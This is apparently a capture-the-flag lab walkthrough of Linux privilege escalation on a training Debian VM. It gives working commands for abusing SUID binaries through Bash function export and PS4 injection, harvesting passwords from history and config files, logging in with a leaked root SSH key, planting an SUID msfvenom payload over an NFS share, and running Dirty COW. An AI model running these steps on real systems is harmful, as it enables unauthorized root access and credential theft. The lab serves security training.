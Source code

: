 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [SUID/SGID Executables - Abusing Shell Features \#1](#SUID/SGID\Executables\-\Abusing\Shell\Features\\#1)
  - [SUID/SGID Executables - Abusing Shell Features \#2](#SUID/SGID\Executables\-\Abusing\Shell\Features\\#2)
    - [Passwords & Keys - History files](#Passwords\&\Keys\-\History\files)
    - [Passwords & Keys - Config Files](#Passwords\&\Keys\-\Config\Files)
    - [Passwords & Keys - SSH Keys](#Passwords\&\Keys\-\SSH\Keys)
    - [NFS](#NFS)
    - [Kernel Exploits](#Kernel\Exploits)

## Table of Contents

  - [SUID/SGID Executables - Abusing Shell Features \#1](#SUID/SGID\Executables\-\Abusing\Shell\Features\\#1)
  - [SUID/SGID Executables - Abusing Shell Features \#2](#SUID/SGID\Executables\-\Abusing\Shell\Features\\#2)
    - [Passwords & Keys - History files](#Passwords\&\Keys\-\History\files)
    - [Passwords & Keys - Config Files](#Passwords\&\Keys\-\Config\Files)
    - [Passwords & Keys - SSH Keys](#Passwords\&\Keys\-\SSH\Keys)
    - [NFS](#NFS)
    - [Kernel Exploits](#Kernel\Exploits)

## SUID/SGID Executables - Abusing Shell Features \#1
The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

**Verify this with strings:**
```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

**Verify the version of Bash installed on the Debian VM is less than 4.2-048:**
```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }   export -f /usr/sbin/service`

**Run the suid-env2 executable to gain a root shell:**
```bash
/usr/local/bin/suid-env2
```

## SUID/SGID Executables - Abusing Shell Features \#2
	Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.  

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash   exit`

### Passwords & Keys - History files
If a user accidentally types their password on the command line instead of into a password prompt, it may  get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:
```bash
cat ~/.*history | less
```

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

Switch to the root user, using the password:

`su root`
### Passwords & Keys - Config Files
Config files often contain passwords in plaintext or other reversible formats

List the contents of the user's home directory:
`ls /home/user`

Note the presence of a `myvpn.ovpn` config file. View the contents fo the file:
`cat /home/user/myvpn.ovpn`

The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:
`su root`


### Passwords & Keys - SSH Keys
Sometimes users make backups of important files but fail to secure them with the correct permissions.

Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called **.ssh**. View the contents of the directory:

`ls -l /.ssh`

Note that there is a world-readable file called **root_key**. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the **root_key** file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):

`ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.163.143`


### NFS
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

`mkdir /tmp/nfs   mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`

**What is the name of the option that disables root squashing?**
> `no_root_squash`


### Kernel Exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w   ./c0w`

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Remember to restore the original **/usr/bin/passwd** file and exit the root shell before continuing!

`mv /tmp/bak /usr/bin/passwd   exit`



